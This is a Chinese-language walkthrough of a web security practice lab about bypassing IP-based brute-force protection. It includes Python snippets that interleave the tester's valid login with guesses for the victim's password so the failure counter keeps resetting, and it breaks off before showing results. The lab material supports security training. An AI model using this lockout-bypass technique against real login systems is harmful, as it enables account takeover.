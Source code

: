In this case, merely including your own login credentials at regular intervals throughout the wordlist is enough to render this defense virtually useless.

感觉简述下就是，次数与频率的限制

### 题目

```
Lab: Broken brute-force protection, IP block
PRACTITIONER

This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.

Your credentials: wiener:peter
Victim's username: carlos
Candidate passwords
```

### 答案

这时候得修改账号字典和密码字典，在两个字典中穿插写入正确的用户名和密码 即 `wiener:peter` ，还得修改 bp 爆破的线程为单线程，具体如下：

用 `notepad++` 的替换功能，或者 python 处理

用户名字典：

```python
f = open('./Testu.txt', mode='a')
for i in range(100):
     f.write("\ncarlos\nwiener")
f.close()
```

密码字典：

```python
with open('./passwords.txt') as f:
    for i in range(100):
        content = f.readline().strip()
        with open('./passwords2.txt',mode='a') as p:
            p.write(content)
            p.write('\n')
            p.write('peter')
            p.write('\n')
```

这样每两次请求之间就有一个**正确的账号密码对**，不会连续试错

爆破出来大约是这个结果：
